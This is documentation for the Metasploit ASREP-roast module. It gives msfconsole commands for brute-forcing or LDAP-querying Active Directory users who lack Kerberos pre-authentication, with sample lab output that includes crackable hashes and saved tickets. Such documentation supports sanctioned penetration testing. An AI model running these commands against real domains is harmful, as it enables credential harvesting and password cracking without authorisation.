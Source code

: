 ## ASREP-roast

The `auxiliary/gather/asrep` module can be used to find users who have Pre-authentication disabled,
and retrieve credentials that can be cracked using a hash-cracking tool.

The following ACTIONS are supported:

- **BRUTE_FORCE**: Make TGT requests for all usernames in a given file. This does not require
  valid domain credentials.
- **LDAP**: Request the set of users with pre-authentication disabled using an LDAP query, and
  then request TGTs for these users.

## Module usage

- Start `msfconsole`
- Do: `use auxiliary/gather/asrep`
- Do: `run action=BRUTE_FORCE user_file=<file> rhost=<IP> domain=<FQDN> rhostname=<hostname>`
- The module will attempt to request TGTs for each of the users in the file. This should not lock out accounts.
  A crackable value will be displayed for all identified accounts.
- Do: `run action=LDAP rhost=<IP> username=<LDAP_User> password=<LDAP_Password> domain=<FQDN> rhostname=<hostname>`
- The module will use LDAP to request the users without pre-auth required, and request TGTs for these users.
  A crackable value will be displayed for all identified accounts.

## Options

### DOMAIN
The Fully Qualified Domain Name (FQDN). Ex: mydomain.local.

### USER_FILE
The file containing a list of usernames, each on a new line.

### Rhostname

The hostname of the domain controller. Must be accurate otherwise the module will silently fail, even if users exist without pre-auth required.

### USE_RC4_HMAC
Request a ticket with the lower-security, more easily crackable, RC4_HMAC encryption type. This is 
usually preferable, but may be less stealthy.

## Scenarios

### Brute forcing users

An example of brute forcing usernames, in the hope of finding one with pre-auth not required:

```msf
msf6 auxiliary(gather/asrep) > run action=BRUTE_FORCE user_file=/tmp/users.txt rhost=192.168.1.1 domain=msf.local
[*] Running module against 192.168.1.1

$krb5asrep$23$user@MSF.LOCAL:9fb9954fa32193185ab32e2de2ab9f13$bf14e834c661246cad302073c228e6ff7894cd3023665f0f84338432c3929922ae998c4a23bb9d163dda536a230d0503b2cf575389317b52bde782264940e80206a29e9613e47328228441cf013fb1f6672359f6799be97b962de9429e8859f437e53549be6b11ca07af6f09eae6cd78279af6d7f6dcdfd011eccb74b4aa753b2f9e6561c59c9408ee4bec983777908f3a7eef5fba977710e47e4e8ac0af10608a7dd23db506202b27d7892bc28426d2080c343edfe243bf1cae554cf6204733082332be2455e4674e1c3e84614818a6c15b54221dcaa832

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```

### Using LDAP

```
msf6 auxiliary(gather/asrep) > run action=LDAP rhost=192.168.1.1 username=azureadmin password=password ldap::auth=kerberos domain=msf.local domaincontrollerrhost=192.168.1.1 rhostname=dc22
[*] Running module against 192.168.1.1

[+] 192.168.1.1:88 - Received a valid TGT-Response
[*] 192.168.1.1:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_409871.bin
[+] 192.168.1.1:88 - Received a valid TGS-Response
[*] 192.168.1.1:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_923760.bin
[+] 192.168.1.1:88 - Received a valid delegation TGS-Response
[+] 192.168.1.1:389 Discovered base DN: DC=msf,DC=local
[+] 192.168.1.1:389 Discovered schema DN: DC=msf,DC=local

$krb5asrep$23$user@MSF.LOCAL:234e56b15bf3a0e3eb93d662ea6ded74$9889b0a449154c1353ea4db388af29381ad367771e2fe7d6a5644180e9f7ca0b1e836fc864f6d240e9ef91124edb13797dcb097f68c537279f80e3fc3c5c86f8f937af23bb2fd58274dd40ea184994cf31de50f508faac86c61749032b2d9e4ae4c74b0f76a0c242497e6765ddfba9c57743b19d4bb97aa3ef3b66cee50a1d3871b0b4ecd3f97d42781b6fb3d8839d8805ae1291d0e9ba07d374ed84ea39fadab548c2b40c87288b4465f234d0c3341e3b27c193a62a3ad7b0bdf04dbe5bf03815d48f766d1c727838f92dd36c437782975a978aefcb33e9

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```
